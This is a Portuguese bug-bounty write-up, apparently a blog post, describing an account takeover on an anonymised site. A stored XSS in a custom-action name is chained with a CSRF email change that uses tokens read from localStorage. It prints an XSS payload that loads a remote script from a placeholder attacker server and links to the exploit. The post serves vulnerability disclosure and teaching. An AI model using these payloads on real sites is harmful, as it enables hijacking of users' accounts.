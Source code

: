 ```yaml
---
layout: post
title:  "Bug Bounty 01 - Account Takeover via CSRF + XSS Stored"
date:   2019-06-03 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei em um programa na plataforma <a href="https://bugcrowd.com" target="_blank">Bugcrowd</a>. A falha já foi corrigida mais infelizmente o vendor não me autorizou a fazer o disclosure, então iremos chamar o site de domain.com :)
</p>

<p align="justify">
No vendor, havia uma aplicação que permite você possa criar uma instância e adicionar vários tipos de funcionalidades, como alertas, serviços, usuários, times etc.
<br>
Ao criar um serviço, é necessário que você aloque um time para que eles fiquem encarregados de cuidar deste serviço. Dentro de um serviço, era possível adicionar ações customizadas para que cada usuário fosse capaz de executar ao realizar determinada tarefa.
</p>

<p align="justify">
Nessas ações, verifiquei que ao executá-la um pop-up era aberto com o nome da ação executada, ou seja, o nome da ação era refletido nesse pop-up.
<br>
Decidi então adicionar uma tag HTML e um evento JS simples, inseri <code>&lt;img src="x" onerror="alert(1)"/&gt;</code>, e ao clicar na ação maliciosa, o nome foi refletido novamente, sem nenhum tipo de filtro:
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png"/>
<br>
<br>
e o alerta apareceu :) (IEEEERRRRRRRRR)
<br>
<img src="/images/bug_bounty/bb01/bb01-01.png"/>
<br>
<br>
Bom, neste ponto, eu já tinha um XSS Stored. Dei uma olhada de como funcionava a aplicação, e notei que havia como um usuário fazer a troca do email, então tive uma sacada... eu poderia utilizar de um CSRF junto com o XSS para realizar o Account Takeover.
</p>

<p align="justify">
Basicamente, o CSRF consistia em uma request POST simples com o <i>ID do usuário</i> e o <i>CSRF Token</i> para o endpoint <code>/user/changeUsername</code> para realizar a troca do email. Decidi criar um arquivo javascript com o exploit (ele está disponível no meu github, vou deixar o link no final do report :) ) para que não ficasse muito código dentro do campo da ação.
<br>
<br>
Utilizei o seguinte código para carregar o exploit quando o usuário executar a ação maliciosa dentro do serviço:
<br>
<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/poc.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> 
<br>
<br>
<img src="/images/bug_bounty/bb01/bb01-02.png">
<br>
<br>
As ações disponíveis para os usuários ficariam dessa forma:
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
<br>
Com isso, ao executar a ação maliciosa no serviço, o pop-up seria mostrado e o código executado.
</p>

<p align="justify">
Mas.... Para realizar a requisição, era necessário que fosse enviado junto da request, o token CSRF e o ID do usuário. Depois de fuçar um pouco a aplicação, notei que eles estavam sendo armazenados no localStorage (this is very good :) ), então tive apenas que capturar eles via JS e enviá-los juntos da requisição POST.
<br>
<img src="/images/bug_bounty/bb01/bb01-08.png"/>
</p>

<p align="justify">
Depois de realizar todo o processo, era necessário apenas adicionar as vítimas ao time, e atribuir um serviço com uma ação maliciosa a esse time, vale lembrar que não era necessário que as vítimas tivessem contas já criadas, pois o sistema verificava e caso não houvesse, era criado uma nova conta.
<br>
</p>

<p align="justify">
Como PoC, irei colocar alguns prints tirados do vídeo, então vamos lá :)
<br>
<br>
Primeiramente, o email da vítima permanece normalmente:
<br>
<img src="/images/bug_bounty/bb01/bb01-04.png">
<br>
<br>
Quando a vítima entrasse no seriço malicioso e fosse realizar alguma ação, esta seria a visão dele:
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
<br>
Ao clicar na última ação, o pop-up era mostrado:
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png">
<br>
<br>
E em background a ação da troca de email era realizada:
<br>
<img src="/images/bug_bounty/bb01/bb01-05.png">
<br>
<br>
Como resultado, o email da vítima foi trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-06.png">
<br>
<br>
Um link de confirmação foi enviado para o email do atacante, e ao confirmar o novo email, a conta da vítima teria o seu email trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-07.png">
<br>
<br>
Infelizmente, não posso divulgar o vídeo da PoC, pois como foi dito no início, o vendor não autorizou que fosse divulgado a vulnerabilidade e tentei ao máximo deixar o mesmo mais anônimo possível :).
</p>

<p align="justify">
Como prometido, o exploit pode ser encontrado neste link: <a href="https://github.com/vitor-fernandes/exploits/blob/master/poc.js" target="_blank" style="color: blue"><b>Exploit</b></a> 
</p>